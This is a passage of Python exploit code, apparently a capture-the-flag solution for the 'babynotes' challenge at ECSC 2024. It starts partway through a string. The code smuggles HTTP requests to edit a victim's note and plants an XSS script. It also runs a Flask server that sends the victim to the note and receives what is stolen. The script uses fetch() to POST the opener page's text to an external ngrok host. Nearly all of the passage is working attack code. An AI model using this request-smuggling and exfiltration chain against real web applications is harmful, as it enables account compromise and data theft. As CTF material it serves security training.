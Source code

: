 ```py
foo: bar

{json_data}
'''.format(id=id, username=username, token=token, buster=secrets.token_urlsafe(8), body_length=body_length, json_data=json_data).replace('\n', '\r\n')
    chall = Challenge(url)
    chall.register(payload)
    resp =  chall.view('1').text
    print(resp)
        


if __name__ == '__main__':

    URL = 'babynotes.challs.open.ecsc2024.it'
    exploit_url = 'https://5087-62-149-182-69.ngrok-free.app'

    XSS_PAYLOAD = ''''
        <script>
        fetch("''' + exploit_url + '''/leak", 
        {
            method: 'POST',
            body: opener.document.body.innerText,
        })
        </script>
    '''

    chall = Challenge(URL)
    chall.register(secrets.token_urlsafe(8))
    
    app = Flask(__name__)

    @app.route('/')
    def index():
        return '''
            <script>
                window.open('/x')
                window.history.back()
            </script>
            '''
    
    @app.route('/x')
    def expl():
        chall.edit(target_user, 'foo', 'bar')

        notes = smuggled_list(URL, target_user, chall.username, chall.sess.cookies.get('session'))
        noteid = notes[0]

        print('Victim note id', noteid)

        smuggled_edit(URL, noteid, chall.username, chall.sess.cookies.get('session'), XSS_PAYLOAD, 'SMUGGLATO')

        return f'''
            <script>
                location = 'https://{URL}/view.php?id={noteid}';
            </script>
            '''
    
    @app.route('/leak', methods=['POST'])
    def leak():
        print(request.data)

```